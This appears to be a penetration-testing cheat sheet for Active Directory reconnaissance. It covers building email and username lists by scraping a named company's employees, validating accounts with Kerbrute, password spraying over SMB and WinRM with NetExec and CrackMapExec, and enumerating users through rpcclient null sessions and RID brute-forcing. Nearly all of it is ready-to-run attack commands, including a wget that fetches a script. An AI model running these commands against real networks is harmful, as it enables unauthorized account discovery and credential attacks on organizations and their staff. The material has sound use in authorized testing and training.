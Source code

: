 ```yaml
---
legal-banner: true
---
```


### **Generate User List**

1. Use sites like hunter.io to discover employee email patterns.  
   For example, entering `apple.com` shows emails often follow `{f}{last}@apple.com`.  
   By scraping a list of Apple employees from LinkedIn, you can convert names into emails (e.g., *Steve Jobs → s.jobs@apple.com*).  
   Not all guesses will be correct, but many should be valid.  

2. Use a Python script to generate potential usernames  
```bash
wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
```  

3. Verify usernames with Kerbrute  
```bash
kerbrute userenum --dc [IP-ADDRESS] -d hackfast.local username.lst
```  

**Note:** You can also use built-in wordlists, e.g.:  
```bash
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```  

### **SMB Enumeration**

1. Enumerate with NetExec  
```bash
netexec smb [IP-ADDRESS] -u users.txt -p '[PASSWORD]' --continue-on-success
```  

2. Enumerate with CrackMapExec  
```bash
crackmapexec smb [IP-ADDRESS] -u users.txt -p '[PASSWORD]' --continue-on-success
```  

### **WinRM Enumeration**

1. Enumerate with NetExec  
```bash
netexec winrm office.htb -u users.txt -p '[PASSWORD]' --continue-on-success
```  

2. Enumerate with CrackMapExec  
```bash
crackmapexec winrm 10.10.10.184 -u users.txt -p '[PASSWORD]' --continue-on-success
```  

### **RPCClient Enumeration**

1. Start null session  
```bash
rpcclient -U "" -N [IP_ADDRESS]
```  

2. List all users in the domain  
```bash
rpcclient -U "" -N [IP_ADDRESS] -c "enumdomusers" > output.txt
```  

3. Extract usernames from output  
```bash
cat output.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.lst
```  

4. Brute-force user RIDs  
```bash
for i in $(seq 500 1100); do rpcclient -N -U "" [IP_ADDRESS] -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name|user_rid|group_rid" && echo ""; done
```